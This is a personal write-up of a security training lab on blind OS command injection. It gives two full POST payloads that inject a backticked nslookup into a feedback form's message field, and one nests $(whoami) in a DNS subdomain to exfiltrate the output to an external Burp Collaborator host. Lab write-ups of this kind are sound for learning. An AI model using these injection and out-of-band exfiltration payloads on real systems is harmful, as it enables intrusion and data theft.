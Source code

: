# Lab: Blind OS command injection with out-of-band data exfiltration

>This lab contains a blind OS command injection vulnerability in the feedback function.

>The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

>To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

### Colaborator
My burp collaborator link `8ktdn4s4idaxqhu21a180ju06rch06.burpcollaborator.net`

### Vulnerable area
`POST /feedback/submit`

### DNS lookup
Made a dns lookup to my collaborator instance with the following payload: 

<pre>csrf=jT692ZRhuzxNTU8g5ugNS7Tqp21bWDXa&name=niko&email=niko%40mail.com&subject=mad&message=mad;`nslookup 8ktdn4s4idaxqhu21a180ju06rch06.burpcollaborator.net`</pre>

Used command separator `;` and surrounded the nslookup command with backticks. I did this because we are executing the ping command *within* the command passed to the server (containing feedback info)

### Exfiltrating data
This payload allowed me to exfiltrate the output of `whoami`:

<pre>csrf=hwBMhsam0pAASxFpWIunrcbUlGg3YqjU&name=niko&email=niko%40mail.com&subject=mad&message=mad;`nslookup $(whoami).8ktdn4s4idaxqhu21a180ju06rch06.burpcollaborator.net`</pre>

This took some trial and error. I tried surrounding the `whoami` command with backticks, but that didn't work. Eventually I realized that `$(whoami)` is the correct syntax. We basically want to output the `whoami` output to a subdomain of my collaborator server. When the DNS request is sent, we can see the output of the `whoami` command.

Our collaborator shows `peter-y9HtnE.8ktdn4s4idaxqhu21a180ju06rch06.burpcollaborator.net`

Lab solved!